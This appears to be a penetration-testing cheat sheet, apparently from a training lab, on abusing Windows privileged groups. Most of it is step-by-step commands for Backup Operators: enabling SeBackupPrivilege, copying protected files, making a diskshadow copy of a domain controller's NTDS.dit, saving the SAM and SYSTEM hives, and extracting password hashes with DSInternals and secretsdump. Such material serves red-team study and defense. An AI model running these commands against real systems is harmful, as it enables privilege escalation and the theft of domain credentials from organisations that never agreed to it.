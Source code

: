 All built-in Windows groups: https://ss64.com/nt/syntax-security_groups.html
Detailed list of privileged accounts and groups in Active Directory: https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-b--privileged-accounts-and-groups-in-active-directory
Groups of Interest:
- Backup Operators
- Hyper-V Administrators
- Event Log Readers
- Print Operators
- DnsAdmins
- Server Operators

**Check Groups
```
whoami /groups
```

## Backup Operators
https://github.com/giuliano108/SeBackupPrivilege

**Importing Libraries
```
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```

**Verifying SeBackupPrivilege is Enabled
```
whoami /priv
Get-SeBackupPrivilege
```

**Enabling SeBackupPrivilege
```
Set-SeBackupPrivilege
Get-SeBackupPrivilege
whoami /priv
```

**Copying a Protected File
```
dir C:\Confidential\
Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt
cat .\Contract.txt
```
- This shows how sensitive information was accessed without possessing the required permissions

**Attacking a Domain Controller - Copying NTDS.dit
```
diskshadow.exe
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% E:
end backup
exit
dir E:
```

**Copying NTDS.dit Locally
```
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```

**Backing up SAM and SYSTEM Registry Hives
```
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV
```
- Can use secretsdump.py or PowerShell DSInternals to extract credentials

**Extracting Credentials from NTDS.dit
```
Import-Module .\DSInterals.psd1
$key = Get-BootKey -SystemHivePath .\SYSTEM
Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key
```

**Extracting Hashes Using SecretsDump
```
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```

## Robocopy

**Copying Files with Robocopy
```
robocopy /B E:\Windows\NTDS .\ntds ntds.dit
```
